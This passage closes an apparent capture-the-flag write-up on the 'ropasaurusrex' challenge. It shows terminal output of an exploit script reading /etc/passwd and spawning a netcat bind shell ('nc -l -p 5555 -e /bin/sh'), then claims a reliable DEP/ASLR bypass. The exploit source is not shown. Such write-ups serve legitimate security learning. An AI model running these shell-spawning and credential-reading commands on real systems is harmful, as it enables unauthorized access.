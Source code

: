 And here is is in action:

```

<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb "cat /etc/passwd"</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">sys</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Comment">sys</span><span class="Normal">:</span><span class="Type">/dev</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">6 </span><span class="Identifier">[...]</span>
```

You can, of course, change <tt>cat /etc/passwd</tt> to anything you want (including a netcat listener!)

```

<span class="lnr"> 1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">pwd</span><span class="Statement">"</span>
<span class="lnr"> 2 </span>/home/ron
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">whoami</span><span class="Statement">"</span>
<span class="lnr"> 4 </span>ron
<span class="lnr"> 5 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">nc -vv -l -p 5555 -e /bin/sh</span><span class="Statement">"</span> &
<span class="lnr"> 6 </span><span class="Statement">[</span><span class="Constant">1</span><span class="Statement">]</span> <span class="Constant">3015</span>
<span class="lnr"> 7 </span>ron@debian-x86 ~ $ nc <span class="Special">-vv</span> localhost <span class="Constant">5555</span>
<span class="lnr"> 8 </span>debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">5555</span> <span class="PreProc">(</span><span class="Special">?</span><span class="PreProc">)</span> open
<span class="lnr"> 9 </span><span class="Statement">pwd</span>
<span class="lnr">10 </span>/home/ron
<span class="lnr">11 </span>whoami
<span class="lnr">12 </span>ron
```

## Conclusion

And that's it! We just wrote a reliable, DEP/ASLR-bypassing exploit for ropasaurusrex.

Feel free to comment or contact me if you have any questions!